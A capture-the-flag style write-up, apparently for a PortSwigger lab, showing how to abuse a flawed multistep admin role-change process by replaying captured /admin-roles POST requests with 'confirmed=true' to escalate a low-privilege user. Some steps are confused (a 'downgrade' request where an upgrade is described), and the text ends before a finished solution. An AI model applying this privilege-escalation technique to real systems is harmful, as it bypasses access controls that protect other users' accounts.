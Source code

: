 ## Lab Description :

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/2b3b072d-aeaf-4368-bc25-5daadcd9f6ca)


## Solution :

First  can familiarize yourself with the admin panel by logging in using the credentials `administrator:admin`. 

Then we can play around with the requests by loggin in as wiener & exploiting the flaw in the multistep process.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/e8440ea8-045e-4bc0-a922-053fb4fc4cc1)

Once logged in , we can go to admin panel & modify other user's privileges.

We need to upgrade wiener as admin by flawed multistep process, so lets now poke around with carlos.

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/5bdb0c20-cff4-400b-9744-b231cfa22bd2)

```http
POST /admin-roles HTTP/2
Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

username=carlos&action=upgrade
```

Here we upgreaded privileges of carlos.

After modifying the privileges, we get a page like this,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/4d9ae4ad-3442-41a0-be2f-9a636b1cee9d)

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 45
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers

action=upgrade&confirmed=true&username=wiener
```
We here have the admin's cookie - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` by which we can send the same request but with non admin cookie

Here note that we have a parameter called `confirmed=true/false` in the POST request  body which takes us to **/admin** .

So now we can try logging in as  **carlos** using the credentials given & try to promote ourselves as administrator.

When we try to upgrade ourself(wiener) as administrator, we get an error stating that we are not admin to perform this action,

![image](https://github.com/sh3bu/Portswigger_labs/assets/67383098/fa0de097-c33a-4a83-a28d-cf9fc7f85cc1)

Capture the above request and send it to repeater.

```http
POST /admin-roles HTTP/2

Host: 0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Cookie: session=A59zxwt0kaZ2sHnkECl29XC9Mxpcetgq
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/113.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 47
Origin: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net
Referer: https://0abc000b0491b2cb883aa3c000610098.web-security-academy.net/admin-roles
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers


action=downgrade&confirmed=true&username=wiener
```

Here we have the same request being sent, but this time we have the **cookie of wiener(non-admin)**.

Cookie of admin  - `ZpyoZWrt5YplfvsXMA2ayoFLn3iAX9GN` 
Cookie of wiener - `A59zxwt0kaZ2sHnkECl29XC9Mxpcetgq`


Let send the non admin request with the admin's session cookie.





